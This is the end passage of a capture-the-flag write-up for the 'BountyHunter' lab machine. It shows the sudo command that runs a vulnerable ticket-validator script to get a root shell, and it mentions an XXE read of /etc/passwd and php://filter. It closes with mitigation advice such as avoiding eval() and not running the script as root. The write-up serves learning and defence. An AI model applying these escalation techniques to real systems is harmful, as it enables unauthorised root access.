 <br>

And after that we only needed to run the script with the following command: `sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py`<br>
and supply our malicious ticket when the script will ask for it. <br>

Bingo! We got a root shell and we have owned the BountyHunter box! <br><br>

 <br>

## Risk Mitigation

---

If it would have been a real life scenario, there are some ways we could have mitigated these attacks.<br>

### PHP server

Here the developers who have configured the web server, should have prohibited the XML parser to read files on the system
or simply restricting the access of `/etc/passwd` from the user running the web server (`www-data`).<br>
They should have also disabled the `php://filter` in order to prevent us to get the content of the **PHP** files.

### Python script

Here, the developer should just have removed the call to the `eval()` function and get the strings from the `split()` function instead and trying to cast <br>
the arguments in integer within a try/except statements. Even better, this script should just not run as root.
